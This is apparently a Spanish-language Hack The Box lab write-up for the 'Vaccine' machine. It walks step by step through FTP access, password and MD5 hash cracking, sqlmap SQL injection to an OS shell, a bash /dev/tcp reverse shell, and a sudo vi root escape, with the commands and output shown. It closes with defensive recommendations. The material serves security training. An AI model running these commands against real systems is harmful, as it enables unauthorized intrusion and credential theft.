






# Information Gathering

## Nmap

Comenzamos el reconocimiento ejecutando un escaneo de Nmap con scripts por defecto y pruebas de vulnerabilidades.

```java
❯ nmap -sV -sC -T5 --max-retries=1 -p- --open 10.129.95.174
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-13 10:26 -05
Nmap scan report for 10.129.95.174
Host is up (0.11s latency).
Not shown: 63067 closed tcp ports (reset), 2465 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.IP.IP
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.00 seconds
```

Del output anterior podemos ver que los puertos **21** (FTP), **22** (SSH) y **80** (HTTP) están abiertos.

**Análisis de los servicios:**

- **Puerto 21 (FTP)**: El servicio FTP está ejecutando `vsftpd 3.0.3`. Lo más interesante es que permite **login anónimo** (`ftp-anon: Anonymous FTP login allowed`), lo que significa que podemos conectarnos sin credenciales. Además, encontramos un archivo `backup.zip` que podría contener información útil.

- **Puerto 22 (SSH)**: OpenSSH 8.0p1 en Ubuntu, servicio estándar de SSH.

- **Puerto 80 (HTTP)**: Apache httpd 2.4.41 ejecutando una aplicación web llamada "MegaCorp Login".



\ **Figure 1:** Resultado del escaneo Nmap

## Reconocimiento Web

Exploramos el servicio web en el puerto 80. La página principal muestra un panel de login.



\ **Figure 2:** Página principal del servicio web

Intentamos algunas técnicas de inyección SQL básicas:

```
' or '1' =='1
' OR '1'='1';
' OR '1'='1'; drop table users;
admin'#
```

No funcionó, por ende podemos intentar seguir por el lado de la conexion anonima por ftp.

# Exploitation

## Acceso FTP Anónimo y Descarga de backup.zip

Nos conectamos al servicio FTP usando credenciales anónimas:

```java
❯ ftp 10.129.95.174
Connected to 10.129.95.174.
220 (vsFTPd 3.0.3)
Name (10.129.95.174:user): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10566|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

La conexión fue exitosa tal como indicó el escaneo Nmap. Listamos el contenido y confirmamos la existencia del archivo `backup.zip`. Descargamos el archivo usando el comando `get backup.zip`.

**Nota importante:** Asegurarse de estar en el directorio deseado antes de conectarse por FTP, ya que el archivo se descargará en el directorio actual. Si es necesario moverlo después, podemos usar `mv backup.zip /ruta/destino/`.

## Descifrado de backup.zip

Intentamos descomprimir el archivo, pero está protegido con contraseña:

```python
❯ unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password: 
password incorrect--reenter: 
password incorrect--reenter: 
   skipping: index.php               incorrect password
[backup.zip] style.css password: 
password incorrect--reenter: 
password incorrect--reenter: 
   skipping: style.css               incorrect password
```

Probamos contraseñas comunes como `password` o `admin` sin éxito. Utilizamos **zip2john** para extraer el hash criptográfico de la contraseña del ZIP.

**zip2john** es una herramienta que extrae el hash criptográfico de la contraseña (no la contraseña en sí) de un archivo ZIP protegido. Este hash puede ser procesado por herramientas de fuerza bruta como John the Ripper.

Un **hash** es el resultado de una función criptográfica que transforma datos (como contraseñas) de cualquier tamaño en una cadena de longitud fija. Los hashes son unidireccionales, lo que significa que no se pueden revertir para obtener los datos originales, pero se pueden comparar para verificar si dos entradas producen el mismo hash.

Extraemos el hash:

```console
❯ zip2john backup.zip > hash
```

Ahora utilizamos **John the Ripper** con el diccionario `rockyou.txt` para intentar descifrar el hash. `rockyou.txt` es un archivo de texto plano que contiene una enorme lista de contraseñas filtradas a lo largo de muchos años, comúnmente usado en pruebas de seguridad.

```java
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)     
1g 0:00:00:00 DONE (2025-11-13 11:15) 100.0g/s 6553Kp/s 6553Kc/s 6553KC/s 123456..sabrina7
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
❯ john --show hash
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip

1 password hash cracked, 0 left
```

John the Ripper probó contraseñas del diccionario `rockyou.txt` hasta encontrar la correcta: `741852963`. El comando `--show` muestra el resultado final en formato `archivo:contraseña:archivos_contenidos`.

Descomprimimos el archivo con la contraseña obtenida:

```java
❯ unzip backup.zip
```

## Análisis del Código Fuente

Revisamos el contenido del archivo `index.php` extraído:

```java
<!DOCTYPE html>
   2   │ <?php
   3   │ session_start();
   4   │   if(isset($_POST['username']) && isset($_POST['password'])) {
   5   │     if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
   6   │       $_SESSION['login'] = "true";
   7   │       header("Location: dashboard.php");
   8   │     }
   9   │   }
  10   │ ?>
```

Este código expone una vulnerabilidad crítica: el hash MD5 de la contraseña de administrador está hardcodeado en el código fuente. El código verifica que el `username` sea `'admin'` y que el hash MD5 de la contraseña ingresada coincida con `"2cb42f8734ea607eefed3b70af13bbd3"`.

Si desciframos este hash MD5, podremos autenticarnos en el panel web como administrador.

## Descifrado del Hash MD5

Utilizamos **hashid** para identificar el tipo de hash. **hashid** es una herramienta que identifica el tipo de hash de una cadena analizando su formato, longitud y patrones, sugiriendo posibles tipos como MD5, SHA-1, SHA-256, bcrypt, etc.

```java
❯ echo "2cb42f8734ea607eefed3b70af13bbd3" > hashadmin
❯ hashid hashadmin
--File 'hashadmin'--
Analyzing '2cb42f8734ea607eefed3b70af13bbd3'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM 
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x 
--End of file 'hashadmin'--#
```

Aunque `hashid` sugiere múltiples posibilidades, ya sabemos por el código PHP que es MD5. Utilizamos **hashcat** para descifrar el hash.

**hashcat** es una herramienta para descifrar hashes mediante fuerza bruta o diccionario. Utilizamos los siguientes parámetros:
- `-a 0`: Modo de ataque 0 = diccionario (wordlist)
- `-m 0`: Tipo de hash 0 = MD5

```java
❯ hashcat -a 0 -m 0 hashadmin /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
==========================================================================================================================================
* Device #1: pthread--0x000, 3912/7888 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

...

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

2cb42f8734ea607eefed3b70af13bbd3:qwerty789                
                                                          
...

Started: Thu Nov 13 11:37:27 2025
Stopped: Thu Nov 13 11:37:41 2025
```

Hashcat encontró que la contraseña que coincide con el hash es **qwerty789**. Ahora podemos intentar ingresar en el panel de login con las credenciales `admin:qwerty789`.



\ **Figure 3:** Login exitoso

## Explotación de Inyección SQL con sqlmap

Una vez autenticados, observamos una funcionalidad de búsqueda que parece consultar una base de datos. Esto sugiere una posible vulnerabilidad de inyección SQL.

Para automatizar el proceso, utilizamos **sqlmap**, una herramienta automatizada para detectar y explotar vulnerabilidades de inyección SQL. sqlmap puede detectar automáticamente si una aplicación web es vulnerable a inyección SQL y explotarla para extraer datos de la base de datos, obtener credenciales, listar tablas, etc.

Como la página requiere autenticación, necesitamos incluir la cookie de sesión en la petición. Obtenemos el valor de `PHPSESSID` desde las herramientas de desarrollador del navegador (Storage → Cookies) y lo utilizamos en sqlmap:

```java
❯ sqlmap -u "http://10.129.95.174/dashboard.php?search=any+query" --cookie="PHPSESSID=2jb9ufn70cuiogo0u4rdgu9d3v"
```

sqlmap usará ese valor cualquiera, en este caso any query y la cookie para probar si el parámetro ```search``` es vulnerable mientras se está autenticado.

sqlmap probará si el parámetro `search` es vulnerable a inyección SQL mientras estamos autenticados.

```java
GET parameter "search" is vulnerable. Do you want to keep testing the others (if any)? [y/N]
```

Confirmamos que el parámetro `search` es vulnerable. Utilizamos el parámetro `--os-shell` para obtener una shell del sistema operativo a través de la vulnerabilidad SQL:

```java
❯ sqlmap -u "http://10.129.95.174/dashboard.php?search=any+query" --cookie="PHPSESSID=2jb9ufn70cuiogo0u4rdgu9d3v" --os-shell
```

## Foothold mediante Reverse Shell

La shell proporcionada por sqlmap es poco interactiva. Para obtener una shell más funcional, configuramos un reverse shell. Primero, levantamos un listener en nuestra máquina:

```python
❯ nc -lvnp 443
```

Desde la shell de sqlmap, ejecutamos el siguiente comando:

```bash
bash -c "bash -i >&/dev/tcp/ip.mi.vm.ip/443 0>&1"
```

**Explicación del comando de reverse shell:**

- `bash -c "..."`: Ejecuta el comando entre comillas en una nueva instancia de bash
- `bash -i`: Inicia bash en modo interactivo
- `>&/dev/tcp/ip.mi.vm.ip/443`: Redirige stdout (salida estándar) y stderr (errores estándar) a una conexión TCP
  - `/dev/tcp/` es un dispositivo especial de bash que abre una conexión TCP
  - `ip.mi.vm.ip` es la IP de nuestra máquina
  - `443` es el puerto donde está escuchando nuestro netcat
- `0>&1`: Redirige stdin (entrada estándar) a stdout, que ya está redirigido a la conexión TCP

**Resultado:** Todo (entrada, salida y errores) se redirige a la conexión TCP, creando una shell remota bidireccional donde podemos enviar comandos y recibir respuestas.

En nuestra terminal que estaba escuchando, recibimos la conexión y vemos que estamos como usuario `postgres`:

```console
postgres@vaccine:/var/lib/postgresql/11/main$
```

## Mejora de la Shell Interactiva

Para mejorar la interactividad de la shell, ejecutamos:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

**Explicación:**
- `-c`: Ejecuta el código Python directamente sin necesidad de crear un archivo `.py`
- `import pty`: Importa el módulo estándar `pty` (pseudoterminal) de Python
- `pty.spawn("/bin/bash")`: Crea un nuevo proceso bash dentro de un pseudoterminal

Luego, en nuestra terminal local, mejoramos aún más la shell:

1. Presionamos `CTRL+Z` para suspender netcat temporalmente
2. Ejecutamos `stty raw -echo; fg`:
   - `stty raw`: Configura el terminal en modo raw (caracteres sin procesar)
   - `-echo`: Desactiva el eco local
   - `fg`: Reanuda netcat (foreground)
3. En la shell remota, ejecutamos `export TERM=xterm` para configurar la variable de terminal

Esto nos proporciona una shell completamente interactiva con características como autocompletado, historial y manejo correcto de caracteres especiales.

## User Flag

Exploramos el sistema para encontrar la flag de usuario:

```java
postgres@vaccine:/var/lib/postgresql/11/main$ cd /var/lib/postgresql
postgres@vaccine:/var/lib/postgresql$ ls
ls
11  user.txt
postgres@vaccine:/var/lib/postgresql$ cat user.txt
cat user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
postgres@vaccine:/var/lib/postgresql$ 
```



\ **Figure 4:** User flag obtenida

# Privilege Escalation

## Enumeración y Obtención de Credenciales

Ahora necesitamos escalar privilegios para obtener acceso root. Comenzamos explorando el sistema, especialmente los archivos de la aplicación web que podrían contener credenciales.

Exploramos el directorio web:

```java
postgres@vaccine:/var/www/html$ cat dashboard.php
```

Encontramos credenciales de base de datos hardcodeadas en el código:

```java
try {
	 $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}
```

Encontramos la contraseña de PostgreSQL: `P@s5w0rd!`. Sin embargo, ya estamos como usuario `postgres`, así que esta información no es inmediatamente útil para escalada de privilegios.

Verificamos los permisos de sudo:

```java
postgres@vaccine:/var/www/html$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

El usuario `postgres` puede ejecutar `/bin/vi` con privilegios de root, pero solo para editar el archivo `/etc/postgresql/11/main/pg_hba.conf`.

## Explotación de sudo con vi

Podemos explotar esta configuración de sudo para obtener una shell como root. Consultamos [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#shell) para ver cómo escapar de `vi` y obtener una shell.

El proceso es el siguiente:

1. Ejecutamos `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
2. Dentro de `vi`, presionamos `:` para entrar en modo comando
3. Ejecutamos `:set shell=/bin/sh` para establecer la shell
4. Ejecutamos `:shell` para obtener una shell

Como ejecutamos `vi` con `sudo`, la shell obtenida será como root:

```bash
postgres@vaccine:/var/www/html$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Dentro de vi:
```
:set shell=/bin/sh
:shell
```



\ **Figure 5:** Escalada exitosa

## Root Flag

Ahora podemos acceder al directorio `/root` y leer la flag:

```bash
# cd /root
# ls
pg_hba.conf  root.txt  snap
# cat root.txt
dd6e058e814260bc70e9bbdef2715849
```



\ **Figure 6:** Root flag obtenida

# Vulnerabilidades Encontradas

1. **FTP con Login Anónimo Habilitado**: El servicio FTP permite acceso anónimo sin autenticación, exponiendo archivos sensibles como `backup.zip` que contienen información crítica del sistema.

2. **Archivo ZIP Protegido con Contraseña Débil**: El archivo `backup.zip` está protegido con una contraseña débil que puede ser descifrada mediante fuerza bruta usando herramientas como `zip2john` y `John the Ripper`.

3. **Credenciales Hardcodeadas**: Las credenciales de administrador están hardcodeadas en el código fuente PHP, almacenadas como hash MD5, un algoritmo de hash inseguro y obsoleto que puede ser descifrado fácilmente.

4. **SQL Injection**: La aplicación web es vulnerable a inyección SQL en el parámetro `search` del endpoint `/dashboard.php`, permitiendo la ejecución de comandos arbitrarios mediante `sqlmap` y obtención de una shell remota.

5. **Permisos Sudo Mal Configurados**: El usuario `postgres` tiene permisos sudo para ejecutar `vi` sin restricciones, permitiendo la escalada de privilegios mediante la técnica de GTFOBins para obtener una shell como root.

# Conclusion

La máquina **Vaccine** fue una excelente práctica que me mostró varios conceptos importantes de seguridad web, criptografía y escalada de privilegios en Linux.

**Puntos clave aprendidos:**

1. **Reconocimiento exhaustivo**: El escaneo Nmap reveló un servicio FTP con login anónimo habilitado, lo que nos permitió acceder a un archivo `backup.zip` protegido con contraseña.

2. **Criptografía y descifrado de hashes**: El uso de herramientas como `zip2john` y `John the Ripper` para descifrar la contraseña del ZIP, y `hashcat` para descifrar el hash MD5 de la contraseña de administrador, me demostró la importancia de usar algoritmos de hash seguros y nunca hardcodear credenciales en el código fuente.

3. **Vulnerabilidades de inyección SQL**: La explotación de la inyección SQL mediante `sqlmap` me mostró cómo las aplicaciones web pueden ser vulnerables cuando no sanitizan correctamente las entradas del usuario, especialmente en consultas a bases de datos.

4. **Reverse Shells y mejora de interactividad**: La creación de reverse shells y el proceso de mejorar su interactividad mediante pseudoterminales y configuración de terminal (`stty raw -echo`, `export TERM=xterm`) fue una experiencia valiosa para trabajar con shells remotas.

5. **Privilege Escalation mediante sudo**: La explotación de permisos sudo mal configurados, específicamente la capacidad de ejecutar `vi` con privilegios de root, me demostró la importancia de restringir adecuadamente los comandos que los usuarios pueden ejecutar con sudo.

**Dificultades encontradas:**

- Inicialmente intenté varias técnicas de inyección SQL manuales sin éxito, lo que me llevó a explorar el servicio FTP primero.
- La necesidad de mejorar la shell interactiva fue un detalle importante que aprendí durante el proceso, ya que la shell inicial de sqlmap era muy limitada.
- Comprender cómo funcionan las redirecciones en bash (`>&`, `0>&1`) requirió investigación adicional.

**Recomendaciones de seguridad:**

- Deshabilitar login anónimo en servicios FTP cuando no sea necesario.
- Nunca hardcodear credenciales o hashes en archivos de código fuente.
- Usar algoritmos de hash seguros (bcrypt, Argon2) en lugar de MD5 para almacenar contraseñas.
- Sanitizar y validar todas las entradas del usuario, especialmente en consultas SQL.
- Restringir adecuadamente los permisos sudo, evitando permitir editores de texto con privilegios elevados sin restricciones adicionales.
- Implementar WAF (Web Application Firewall) para detectar y bloquear intentos de inyección SQL.

Esta máquina fue una excelente práctica que combinó múltiples técnicas de explotación web, criptografía y escalada de privilegios en un entorno Linux.

# References

1. [Hack The Box](https://www.hackthebox.com/)
2. [Hack The Box Forum](https://forum.hackthebox.com/)
3. [Pandoc LaTeX Template](https://github.com/Wandmalfarbe/pandoc-latex-template)
4. [Reverse Shell Generator - revshells.com](https://www.revshells.com/)
5. [GTFOBins - vi](https://gtfobins.github.io/gtfobins/vi/#shell)

# PWNED

[PWNED LINK](https://labs.hackthebox.com/achievement/machine/2794675/289)
